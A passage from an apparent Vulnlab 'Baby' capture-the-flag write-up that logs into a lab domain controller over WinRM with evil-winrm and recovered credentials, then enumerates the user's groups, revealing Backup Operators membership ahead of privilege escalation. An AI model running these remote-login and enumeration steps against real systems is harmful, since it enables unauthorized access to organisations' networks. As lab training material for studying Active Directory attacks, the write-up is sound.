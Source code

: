 We can see the available shares, but nothing particularly interesting at this stage. However, having valid domain credentials allows us to try other attack techniques, such as Kerberoasting or collecting domain information using BloodHound. But I can tell you, that's not the path on this machine.

---

## Exploitation

Instead of focusing on SMB, let's attempt to connect to the machine using WinRM, which is running on port 5985. This service allows remote command execution, making it an excellent target for exploitation.

```bash
┌──(kali㉿kali)-[~/Vulnlab/Baby]
└─$ sudo evil-winrm -u caroline.robinson -p 'BabyStart1234!' -i 10.10.118.21
```
 
```                                        
Evil-WinRM shell v3.7
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> whoami
baby\caroline.robinson
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> hostname
BabyDC
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents>
```

We have successfully logged in as caroline.robinson on BabyDC. However, this user does not have administrator privileges. To elevate our privileges, we need to enumerate what groups this user belongs to.

To determine whether we have any special privileges, let's list the groups that caroline.robinson belongs to:

```powershell
*Evil-WinRM* PS C:\Users> whoami /all
```

```
USER INFORMATION
----------------

User Name              SID
====================== ==============================================
baby\caroline.robinson S-1-5-21-1407081343-4001094062-1444647654-1115


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
```